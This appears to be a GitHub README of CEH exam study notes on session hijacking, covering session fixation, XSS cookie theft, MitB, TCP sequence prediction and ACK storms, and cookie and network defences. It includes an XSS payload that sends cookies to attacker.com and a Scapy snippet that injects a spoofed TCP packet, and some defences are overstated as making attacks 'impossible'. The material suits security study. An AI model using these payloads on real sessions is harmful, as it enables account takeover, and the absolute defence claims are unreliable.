




<div align="center">




# 🛡️ CEH v13 — Module 11: Session Hijacking
### Certified Ethical Hacker (CEH) Exam Notes • Network vs. Application Hijacking • TCP Sequence Prediction • ACK Storms • Session Fixation • MitB • Cookie Security Flags

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 11: Session Hijacking. Covers the fundamental distinction between spoofing and hijacking, the 3-phase hijacking lifecycle, application-level hijacking (Session Fixation, XSS cookie exfiltration, Man-in-the-Browser, predictable token generation), network-level TCP session hijacking (sequence number prediction, connection desynchronization, ACK storm mechanics, blind injection), and protocol-level defenses (HttpOnly, Secure, SameSite, IPsec).</b>
</p>

[📖 Module Hub](../README.md) • [📋 PDF Reference](./CEHv13%20-%20Module%2011%20-%20Session%20Hijacking.pdf) • [🍪 Case Study: Session Hijacking](../../Case%20Study/Genesis%20Market/README.md) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. Session Hijacking Fundamentals](#1-session-hijacking-fundamentals)
  - [Definition & The Spoofing vs. Hijacking Distinction](#definition--the-spoofing-vs-hijacking-distinction)
  - [The 3-Phase Session Hijacking Lifecycle](#the-3-phase-session-hijacking-lifecycle)
  - [Application-Level vs. Network-Level Hijacking](#application-level-vs-network-level-hijacking)
- [2. Application-Level Session Hijacking](#2-application-level-session-hijacking)
  - [Session Token Hijacking & The Session State Model](#session-token-hijacking--the-session-state-model)
  - [Session Fixation Attacks & Mechanics](#session-fixation-attacks--mechanics)
  - [Cross-Site Scripting (XSS) Cookie Theft](#cross-site-scripting-xss-cookie-theft)
  - [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
  - [Man-in-the-Browser (MitB) Trojan Exploitation](#man-in-the-browser-mitb-trojan-exploitation)
- [3. Network-Level Session Hijacking](#3-network-level-session-hijacking)
  - [TCP 3-Way Handshake & Sequence Number Synchronization](#tcp-3-way-handshake--sequence-number-synchronization)
  - [TCP Sequence Number Prediction & Blind Hijacking](#tcp-sequence-number-prediction--blind-hijacking)
  - [Connection Desynchronization & RST Injection](#connection-desynchronization--rst-injection)
  - [The ACK Storm Phenomenon & Packet Infinite Loops](#the-ack-storm-phenomenon--packet-infinite-loops)
  - [UDP Session Hijacking](#udp-session-hijacking)
- [4. Session Hijacking Toolchains](#4-session-hijacking-toolchains)
  - [Hunt, Bettercap, and Scapy Packet Crafting](#hunt-bettercap-and-scapy-packet-crafting)
- [5. Session Hijacking Countermeasures & Defensive Engineering](#5-session-hijacking-countermeasures--defensive-engineering)
  - [Hardening HTTP Cookies: HttpOnly, Secure, and SameSite Flags](#hardening-http-cookies-httponly-secure-and-samesite-flags)
  - [Session Regeneration on Authentication](#session-regeneration-on-authentication)
  - [Network Layer Protections: IPsec & TLS Everywhere](#network-layer-protections-ipsec--tls-everywhere)
- [🧠 Master CEH Session Hijacking Decision Flowchart](#-master-ceh-session-hijacking-decision-flowchart)
- [🎯 High-Value CEH Exam Distinctions to Memorize](#-high-value-ceh-exam-distinctions-to-memorize)

---

> [!TIP]
> **💡 In Simple Words — What Module 11 Is Really About:**  
> Think of **Session Hijacking** vs. **Spoofing** like sneaking into a VIP concert:  
> - **Spoofing (Before login):** Forging a fake ID at the front gate to sneak in yourself.  
> - **Session Hijacking (After login):** Waiting patiently until Alice shows her real ID, gets her purple VIP wristband (*Session Cookie / TCP stream*), and then **stealing or copying Alice's wristband** so the bartender treats *you* as Alice without ever knowing her password!  
> - **Best Defenses:** Put **`HttpOnly`** on cookies (JavaScript cannot steal them), **`Secure`** (HTTPS only), **`SameSite=Strict`** (blocks CSRF), and always **regenerate a brand-new Session ID** right after login!

# 1. Session Hijacking Fundamentals

## Definition & The Spoofing vs. Hijacking Distinction

**Session Hijacking** is the exploitation of an active, authenticated communication session between two entities (e.g., a client and a web server, or two TCP hosts) by inserting an unauthorized third party into the stream.

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│                   SPOOFING VS. HIJACKING: THE CRITICAL CEH RULE                  │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│   SPOOFING (Before Authentication):                                              │
│   The attacker pretends to be another identity to initiate a brand-new           │
│   connection or send unauthenticated packets (e.g., IP spoofing, MAC spoofing).  │
│                                                                                  │
│   HIJACKING (After Authentication):                                              │
│   The attacker takes over an already established, already authenticated session  │
│   in real-time, effectively stealing the victim's verified authorization!        │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## The 3-Phase Session Hijacking Lifecycle

Every network-level or application session hijacking attack flows through three steps:



## Application-Level vs. Network-Level Hijacking
* **Application-Level Hijacking:** Stealing HTTP session cookies, tokens, or forcing fixed session IDs (`PHPSESSID`, `JSESSIONID`, JWTs) over web applications.
* **Network-Level Hijacking:** Intercepting active transport-layer TCP/UDP packets directly on the wire and predicting 32-bit sequence numbers to inject malicious commands mid-connection.

---

# 2. Application-Level Session Hijacking

## Session Token Hijacking & The Session State Model
Because HTTP is stateless, servers issue a random token stored in the user's browser cookie (`Cookie: session_id=...`). Anyone possessing that string inherits the victim's active login state until logout or timeout expiration.

## Session Fixation Attacks & Mechanics

In a **Session Fixation** attack, the attacker does not steal an existing session token; instead, the attacker **forces a pre-set session ID onto the victim**:

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│                       SESSION FIXATION ATTACK SEQUENCE                           │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│   1. Attacker visits bank.com and obtains an unauthenticated Session ID = "XYZ123"│
│                                                                                  │
│   2. Attacker crafts trap link and sends it to Victim:                           │
│      http://bank.com/login.php?SID=XYZ123                                        │
│                                                                                  │
│   3. Victim clicks link and successfully logs in with username & password.       │
│                                                                                  │
│   4. FLAW: The web application fails to regenerate the Session ID upon login!    │
│      The session "XYZ123" is now fully authenticated as the Victim!              │
│                                                                                  │
│   5. Attacker opens browser, loads SID="XYZ123", and possesses FULL ACCOUNT ACCESS│
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

> [!IMPORTANT]
> **Countermeasure for Session Fixation:**
> The web application **MUST issue a completely new, regenerated Session ID** immediately upon successful user login!

---

## Cross-Site Scripting (XSS) Cookie Theft

If a web application reflects unvalidated user input, an attacker injects malicious JavaScript that executes inside the victim's browser context:

```html
<script>
    var img = new Image();
    img.src = 'http://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie);
</script>
```

When the victim loads the page, their browser transmits their sensitive session cookie directly to the attacker's listener server.

## Cross-Site Request Forgery (CSRF)
Unlike XSS cookie theft, **CSRF** exploits the fact that browsers automatically attach session cookies on cross-origin form requests — tricking a logged-in victim visiting `evil.com` into firing hidden bank transfers or password changes on `bank.com`.

---

## Man-in-the-Browser (MitB) Trojan Exploitation

A **Man-in-the-Browser (MitB)** attack utilizes a malicious browser extension, helper object (BHO), or Trojan running in the victim's local browser memory.
* Because the Trojan resides *inside* the browser process, it intercepts web pages **after TLS decryption** and **before HTML display**.
* When the victim submits a legitimate bank transfer of \$10 to a friend, the MitB Trojan silently intercepts the HTTP POST request, modifies the destination account to the attacker's account, and updates the amount to \$10,000—all while displaying a fake confirmation receipt of \$10 to the victim!

---

# 3. Network-Level Session Hijacking

## TCP 3-Way Handshake & Sequence Number Synchronization

TCP is a stateful, connection-oriented protocol that relies on 32-bit **Sequence Numbers (SEQ)** and **Acknowledgment Numbers (ACK)** to ensure reliable, in-order packet delivery:
$$\text{Next Expected ACK} = \text{Received SEQ} + \text{Length of Incoming Payload}$$

## TCP Sequence Number Prediction & Blind Hijacking
When a legacy system generates weak, predictable Initial Sequence Numbers (ISNs), an attacker outside the direct network path can sniff one handshake packet or guess the increment, inject spoofed commands using the predicted `SEQ/ACK`, and perform **blind injection** without seeing return output.

## Connection Desynchronization & RST Injection
To seize control cleanly, an attacker injects a spoofed **TCP RST** packet to forcibly terminate the legitimate victim's connection state (or alters sequence numbers via injected payloads), knocking the real user out of synchronization with the server.

## The ACK Storm Phenomenon & Packet Infinite Loops

When an attacker attempts to inject data into an active TCP stream without having a full in-line Man-in-the-Middle position:
1. The attacker injects a spoofed packet with a predicted sequence number: $\text{SEQ} = X$.
2. The server accepts the packet and advances its internal sequence counter: $\text{SEQ} = X + \text{Payload}$.
3. When the legitimate client sends its next packet, its sequence number is now behind ($\text{SEQ} < X$). The server rejects it and transmits an `ACK` indicating what sequence number it expects.
4. The client receives this unexpected `ACK`, sees a sequence number mismatch, and generates an `ACK` back to the server.
5. **The ACK Storm:** The client and server enter an infinite ping-pong loop, rapidly transmitting thousands of `ACK` packets back and forth trying to resynchronize, consuming massive bandwidth and freezing the connection.

## UDP Session Hijacking
Because UDP is connectionless and lacks sequence/acknowledgment numbers, an attacker simply sniffs the wire to intercept the victim's request and races to transmit a forged UDP response back to the client (or server) *before* the real peer replies!

---

# 4. Session Hijacking Toolchains

## Hunt, Bettercap, and Scapy Packet Crafting
* **Hunt:** Classic Linux TCP hijacking tool capable of watching active Telnet/FTP TCP streams, desynchronizing connections, triggering ACK storms resolution, and injecting live commands.
* **Bettercap / Mitmproxy:** Modern interactive HTTP/HTTPS proxy interceptors extracting session cookies (`Cookie` / `Authorization` headers) during active MitM sniffing.
* **Scapy:** Python packet manipulation toolkit allowing attackers to construct arbitrary custom TCP frames with exact predicted `seq` and `ack` numbers:
  ```python
  from scapy.all import IP, TCP, send
  pkt = IP(src="192.168.1.100", dst="192.168.1.50") / TCP(sport=54321, dport=23, flags="PA", seq=1048576, ack=2097152) / "id\n"
  send(pkt)
  ```

---

# 5. Session Hijacking Countermeasures & Defensive Engineering

## Hardening HTTP Cookies: HttpOnly, Secure, and SameSite Flags

Web applications must enforce three security flags on every `Set-Cookie` HTTP response header:

```http
Set-Cookie: session_id=abc123xyz789; Secure; HttpOnly; SameSite=Strict; Path=/; Domain=target.com
```

| Cookie Flag | Security Mandate / Defense Provided |
|---|---|
| **`HttpOnly`** | **Completely blocks client-side JavaScript from accessing the cookie (`document.cookie`).** Renders Cross-Site Scripting (XSS) cookie theft completely impossible! |
| **`Secure`** | Instructs the browser to transmit the cookie **strictly over encrypted HTTPS connections**. Prevents cleartext sniffing over unencrypted HTTP. |
| **`SameSite=Strict`** | Prohibits the browser from sending the cookie in cross-site requests. Completely neutralizes Cross-Site Request Forgery (CSRF). |

## Session Regeneration on Authentication
Web applications **must immediately invalidate the pre-login session ID and generate a fresh, high-entropy random token** upon successful authentication (defeating Session Fixation completely), as well as enforcing short idle timeouts.

## Network Layer Protections: IPsec & TLS Everywhere
* **TLS 1.3 (HTTPS):** Encrypts HTTP headers, cookies, and form payloads end-to-end, blocking passive cookie sniffing on Wi-Fi or switched LANs.
* **IPsec (ESP Encryption & AH Integrity):** Protects Layer-3/4 network sessions with cryptographic packet authentication, making blind TCP sequence number spoofing and RST injection impossible.

---

# 🧠 Master CEH Session Hijacking Decision Flowchart



---

# 🎯 High-Value CEH Exam Distinctions to Memorize

| Question / Concept | Correct Answer / Key Insight | Common Exam Distractor (Trap) |
|---|---|---|
| **Spoofing vs Hijacking** | Spoofing is **before** auth; Hijacking is **stealing an already authenticated session**. | Treating them as the same thing. |
| **Cookie flag preventing XSS theft** | **`HttpOnly`** (Blocks `document.cookie` in browser scripts). | `Secure` (Only enforces HTTPS, doesn't block XSS). |
| **Mitigation for Session Fixation** | **Regenerate the session ID immediately upon login**. | Increasing password complexity. |
| **What causes a TCP ACK Storm?** | Sequence number **desynchronization** between client and server. | Smurf attacks or ICMP floods. |
| **Trojan modifying transactions inside browser** | **Man-in-the-Browser (MitB)** | Man-in-the-Middle (MitM operates on the network wire). |
| **Cookie flag preventing CSRF** | **`SameSite=Strict`** (or `Lax`). | `HttpOnly` (HttpOnly does not prevent CSRF). |

---

<div align="center">

<b>Next Module: [Module 12 — Evading IDS, Firewalls, and Honeypots](../Module%2012/README.md)</b> • <b>Previous Module: [Module 10 — Denial-of-Service](../Module%2010/README.md)</b>

</div>
